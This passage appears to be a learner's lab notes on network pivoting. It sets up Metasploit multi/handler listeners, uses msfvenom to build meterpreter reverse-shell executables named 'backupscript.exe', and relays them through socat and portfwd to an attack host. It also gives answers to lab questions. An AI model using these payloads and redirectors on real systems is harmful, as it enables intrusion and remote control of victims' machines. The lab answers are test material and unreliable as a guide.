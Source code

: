     ```
    portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
    ```
2. Setup multi/handler 

    ```
    [*] Backgrounding session 1...
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LPORT 8081 
    LPORT => 8081
    msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
    LHOST => 0.0.0.0
    msf6 exploit(multi/handler) > run
    ```

3. Create the windows payload 

    ```
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
    ```

## Labs
What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)
    172.16.5.19,172.16.5.129
Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)

    172.16.5.0/255.255.254.0



# Socat Redirection with a REVERSE shell (socat reverse shell redirector)

**socat is useful when the tarbet machine does not have netcat/ssh installed, generally when it has a limited toolkit**
1. Use socat on the pivot machine (ubuntu)
   socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
2. Create a windows payalod to be uploaded to the victim (windows) 
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
3. Upload the payload to the victim machine
4. Start the multi handler on the attack machine
5. Execute the payload on the victim machine
6. You should see a connection coming from the pivot machine to the attack machine


# Socat Redirection with a Bind Shell (socat bind shell redirector)